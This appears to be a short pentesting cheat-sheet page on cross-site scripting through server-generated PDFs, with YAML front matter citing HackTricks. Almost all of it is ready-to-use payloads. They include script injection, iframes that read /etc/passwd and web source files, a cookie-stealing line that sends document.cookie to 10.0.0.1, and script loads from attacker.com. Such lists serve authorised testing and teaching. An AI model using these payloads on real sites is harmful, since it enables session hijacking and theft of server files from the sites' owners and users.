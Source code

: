 ```yaml
---
title: XSS with Dynamic PDF
description: If the PDF file, which is created somewhere in the website, that is reflected our payloads, we can insert malicious code.
tags:
    - XSS
    - Web
refs:
    - https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf
date: 2023-02-21
draft: false
---
```


## Exploitation

Here insert the payload into POST params.  

### Basic

<div data-pagefind-ignore>

```sh
<img src='x' onerror="document.write('test')">

<script>document.write('test')</script>
```

</div>

### Path Disclosure

<div data-pagefind-ignore>

```sh
<img src='x' onerror="document.write(JSON.stringify(window.location))">

<script>document.write('<iframe src=\"' + window.location.href + '\"></iframe>')</script>
```

</div>

### LFI/RFI

<div data-pagefind-ignore>

```sh
<iframe src="file:///etc/passwd"></iframe>
<iframe src=file:///etc/passwd width=1000px height=1000px></iframe>
<iframe src=file:///var/www/html/index.php width=1000px height=1000px></iframe>
<iframe src="http://localhost:3000/index.html"></iframe>

<img src='x' onerror="document.write('<iframe src=file:///etc/passwd></iframe>')">
```

</div>

### Cookie Hijacking

<div data-pagefind-ignore>

```sh
<img src=x onerror="location.href='http://10.0.0.1/?cookie='+ document.cookie">
```

</div>

### External Scripts

<div data-pagefind-ignore>

```sh
<script src="http://attacker.com/test.js"></script>

<img src='x' onerror="document.write('<script src=\"http://10.0.0.1/test.js\"></script>')" />
```

</div>